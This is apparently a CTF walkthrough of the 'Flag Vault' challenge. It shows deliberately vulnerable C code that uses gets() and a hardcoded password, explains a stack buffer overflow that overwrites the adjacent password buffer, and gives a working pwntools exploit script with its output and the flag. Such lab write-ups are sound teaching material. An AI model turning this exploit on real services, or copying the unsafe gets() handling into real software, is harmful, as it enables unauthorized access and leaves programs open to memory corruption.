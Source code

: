 ```yaml
---
sticker: emoji//1f6a9
---
```


# FLAG VAULT

## CONTEXT

***

Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

**Note:** To start the target machine, click the Start Machine button:

You can use the following command to connect to the machine:

`nc 10.10.61.110 1337`

Download the source code from [here](https://drive.google.com/file/d/1kYIR2JEfLfbzifHgpGBj2xuBgGxNLp46/view?usp=sharing).

This challenge was originally a part of the Hackfinity Battle 2025 CTF Event.

Let's begin.

## EXPLOITATION

***

So, we know there's a binary running on port `1337`, let's use netcat to interact with it:

```
nc 10.10.61.110 1337
  ______ _          __      __         _ _
 |  ____| |         \ \    / /        | | |
 | |__  | | __ _  __ \ \  / /_ _ _   _| | |_
 |  __| | |/ _` |/ _` \ \/ / _` | | | | | __|
 | |    | | (_| | (_| |\  / (_| | |_| | | |_
 |_|    |_|\__,_|\__, | \/ \__,_|\__,_|_|\__|
                  __/ |
                 |___/

Version 1.0 - Passwordless authentication evolved!
==================================================================

Username: test
Wrong password! No flag for you.
```

As seen, it seems to be asking for a password, luckily for us, we got the source code of the file:

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
	printf( "  ______ _          __      __         _ _   \n"
 		" |  ____| |         \\ \\    / /        | | |  \n"
		" | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
		" |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
		" | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
		" |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
		"                  __/ |                      \n"
		"                 |___/                       \n"
		"                                             \n"
		"Version 1.0 - Passwordless authentication evolved!\n"
		"==================================================================\n\n"
	      );
}

void print_flag(){
	FILE *f = fopen("flag.txt","r");
	char flag[200];

	fgets(flag, 199, f);
	printf("%s", flag);
}

void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

This binary is vulnerable to `Buffer Overflow`:

1. **Buffer Overflow in `username`**:
   * The `gets(username)` function reads input without bounds checking, allowing overflow into adjacent memory.
   * The `password` buffer (initialized as empty) is adjacent to `username` on the stack. Overflowing `username` can overwrite `password`.
2. **Stack Layout**:
   * `password[100]` is allocated first (lower memory address).
   * `username[100]` is allocated next (higher memory address).
   * Writing beyond 100 bytes in `username` overflows into `password`.
3. **Login Bypass**:
   * The login check requires:
     * `username == "bytereaper"`
     * `password == "5up3rP4zz123Byte"`.
   * By crafting a payload that sets `username` to `"bytereaper"` (with proper null termination) and overflows into `password` with the correct value, we can satisfy both conditions.

Knowing all that, we can use this python script:

```python
#!/usr/bin/env python3
from pwn import *
import re

def main():
    # Remote host and port (updated for this target)
    host = "10.10.61.110"
    port = 1337

    # Enable pwntools logging so we see:
    # [+] Opening connection to 10.10.61.110 on port 1337: Done
    # [+] Receiving all data: Done (XXB)
    # [*] Closed connection to 10.10.61.110 port 1337
    context.log_level = "info"

    # 1) Connect to the remote service
    conn = remote(host, port)

    # 2) Build the payload
    #    - "bytereaper\x00" makes strcmp(username, "bytereaper") succeed
    #    - 101 "A" bytes overflow into the password buffer
    #    - "5up3rP4zz123Byte" is the hardcoded password the program expects
    payload = (
        b"bytereaper\x00"       # username + null terminator
        + b"A" * 101            # overflow filler up to password check
        + b"5up3rP4zz123Byte"   # correct password string
    )

    # 3) Wait until the remote binary prompts "Username:"
    conn.recvuntil(b"Username:")

    # 4) Send the payload (pwntools will automatically append "\n")
    conn.sendline(payload)

    # 5) Read everything the server sends back (banner + flag or error)
    #    We give a small timeout to avoid hanging indefinitely
    response = conn.recvall(timeout=2).decode(errors="ignore")

    # 6) Close the connection
    conn.close()

    # 7) Extract the flag from the response.
    #    The flag is expected to match THM{…}, so we search with a regex.
    match = re.search(r"THM\{.*?\}", response)
    if match:
        # Print only the flag, prefixed so it's clear in the output
        print(f"Flag: {match.group(0)}")
    else:
        # If no flag was found, print the full response for debugging
        print("No flag found. Full response:\n")
        print(response)

if __name__ == "__main__":
    main()
```

Once we run the script, we get:

```python
python3 exploit.py
[+] Opening connection to 10.10.61.110 on port 1337: Done
[+] Receiving all data: Done (24B)
[*] Closed connection to 10.10.61.110 port 1337
Flag: THM{password_0v3rfl0w}
```

Got our flag:

```python
THM{password_0v3rfl0w}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250605184529.png)
